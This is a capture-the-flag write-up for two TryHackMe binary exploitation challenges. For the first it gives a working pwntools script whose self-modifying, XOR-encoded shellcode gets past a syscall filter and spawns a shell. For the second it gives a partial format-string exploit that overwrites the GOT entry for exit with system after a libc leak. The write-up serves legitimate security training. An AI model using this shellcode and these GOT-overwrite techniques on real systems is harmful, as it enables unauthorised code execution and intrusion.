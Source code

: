# TryPwnMe Two

<https://tryhackme.com/room/trypwnmetwo>

A sequel to [TryPwnMe One](https://tryhackme.com/room/trypwnmeone) ([my writeup](./trypwnmeone.md))

## TryExecMe2

This is a shell code executor: it reads 100 chars from the input, runs them through a function called 'forbidden' which looks for any use of `\x0f \x05` (syscall) or `\x0f \x32` (sysenter) or `\xcd \x80` (int 80, old fashioned syscall) and, if none of these are found, will then run the code as if it was a function.

```c
undefined8 main(void)
{
  char cVar1;
  code *__buf;
  
  setup();
  banner();
  __buf = (code *)mmap((void *)0xcafe0000,100,7,0x22,-1,0);
  puts("\nGive me your spell, and I will execute it: ");
  read(0,__buf,0x80);
  puts("\nExecuting Spell...\n");
  cVar1 = forbidden(__buf);
  if (cVar1 != '\0') {
    exit(1);
  }
  (*__buf)();
  return 0;
}

undefined8 forbidden(long param_1)
{
  ulong local_18;
  
  local_18 = 0;
  while( true ) {
    if (0x7e < local_18) {
      return 0;
    }
    if ((*(char *)(local_18 + param_1) == '\x0f') && (*(char *)(param_1 + local_18 + 1) == '\x05'))
    {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(local_18 + param_1) == '\x0f') && (*(char *)(param_1 + local_18 + 1) == '4')) {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(local_18 + param_1) == -0x33) && (*(char *)(param_1 + local_18 + 1) == -0x80))
    break;
    local_18 = local_18 + 1;
  }
  puts("Forbidden spell detected!");
  return 1;
}
```

So what can you do with a < 100 byte shellcode, where you can't use any syscalls (at least directly)?

The solution is to use some self-modifying shellcode:

1. we execute /bin/sh via execve as normal. This is setting up some stack variables and then invoking syscall (`\x05\x0f`)
2. instead of the syscall opcodes though, we put two nops `\x90\x90`
3. and at the beginning, before we set up args, we find the syscall address and replace it with the right codes
4. the right codes are stored xor'ed, and are un-xor'd before writing

the below pwntools code does all of this and spawns a shell:

```python
from pwn import *

context.arch = 'amd64'
shellcode = asm('''
    lea rsi, [rip + syscall_location]
    mov ax, 0x7316
    xor ax, 0x7619 /* 0x7316 ^ 0x7619 = 0x050f */
    mov [rsi], ax
    
    /* execve setup */
    xor rdx, rdx
    push rdx
    mov rax, 0x68732f2f6e69622f /* /bin/sh */
    push rax
    mov rdi, rsp
    push rdx
    push rdi
    mov rsi, rsp
    mov rax, 59
    
syscall_location:
    nop
    nop
''')

# p = process('./TryExecMe2/tryexecme2')
p = remote('10.10.49.142', 5002)

p.clean()
p.sendline(shellcode)
p.interactive()
```

## NotSpecified2

This is a format string vulnerability:

```c
void main(void)
{
  long in_FS_OFFSET;
  char local_218 [520];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setup();
  banner();
  puts("Please provide your username:");
  read(0,local_218,0x200);
  printf("Thanks ");
  printf(local_218);
  exit(0x539);
  return;
}
```

Fairly standard. The binary has all protections but is not PIE, and the libc it uses is also provided. By testing with "AAAAAAAA %6$p" we find the offset to the buffer is 6. The goal will be to overwrite the got entry for exit with something, likely system. However, we need a libc leak (as libc itself is PIE) to find the address of system... as the program only reads and writes once, we will need to loop main.

The steps will be:

1. Use format string bug to overwrite exit to main's address, causing main to loop
2. On second loop, leak a libc address, so we can calculate where libc is (its PIE)
3. On the third loop, overwrite exit with system and win

the below code will do this (WIP):

```python
from pwn import *

elf = context.binary = ELF("./NotSpecified2/notspecified2")
libc = ELF("./NotSpecified2/libc.so.6")
ld = ELF("./NotSpecified2/ld-linux-x86-64.so.2")

exit_got = elf.got.exit
main_addr = elf.sym.main

p = process([ld.path, elf.path], env={"LD_PRELOAD": libc.path})
# p = remote('10.10.87.64', 5000)
p.clean()

# offset found with p.sendline(b'AAAAAAAA %6$p')
offset = 6

# make main loop by changing the final exit to the start of main
payload = fmtstr_payload(6, {exit_got : main_addr})
p.sendline(payload)

interim = p.clean()

# on second loop leak printf address to calculate libc base
payload = b"%7$s||||" + p64(elf.got.puts)
p.sendline(payload)

result = p.clean()
puts_address = u64(result[7:13].ljust(8, b'\x00'))
libc.address = puts_address - libc.sym.puts

interim = p.clean()

# set exit to system on third loop
payload = fmtstr_payload(6, {exit_got : libc.sym.system})

p.interactive()

p.sendline(payload)
p.interactive()
```
